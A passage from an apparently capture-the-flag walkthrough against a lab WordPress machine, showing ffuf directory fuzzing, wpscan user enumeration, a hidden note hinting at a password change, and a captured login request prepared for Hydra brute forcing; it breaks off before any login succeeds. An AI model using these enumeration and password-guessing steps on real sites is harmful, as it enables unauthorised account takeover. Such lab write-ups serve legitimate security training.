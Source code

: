   ```
  ffuf -u http://10.10.60.173/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

  wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 48ms]
  wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 48ms]
  hidden                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 48ms]
  ```
  
- Since website is built with WordPress, I ran wpscan and found some credentials.

  ```
  wpscan --url http://10.10.60.173 -e ap, u 

  [i] User(s) Identified:
  
  [+] the cold in person
   | Found By: Rss Generator (Passive Detection)
  
  [+] c0ldd
   | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
   | Confirmed By: Login Error Messages (Aggressive Detection)
  
  [+] hugo
   | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
   | Confirmed By: Login Error Messages (Aggressive Detection)
  
  [+] philip
   | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
   | Confirmed By: Login Error Messages (Aggressive Detection)
  ```
  
- You can also find them here `http://10.10.60.173/hidden/`

  ```
  U-R-G-E-N-T
  C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
  ```

- Let's do some brute forcing now. First intercept the login request with Burp so you can get parameters then put them in Hydra for brute forcing.

  ```
  POST /wp-login.php HTTP/1.1
  Host: 10.10.60.173
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Referer: http://10.10.60.173/wp-login.php
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 74
  Origin: http://10.10.60.173
  Connection: keep-alive
  Cookie: wordpress_test_cookie=WP+Cookie+check
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  log=test&pwd=test&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1
  ```
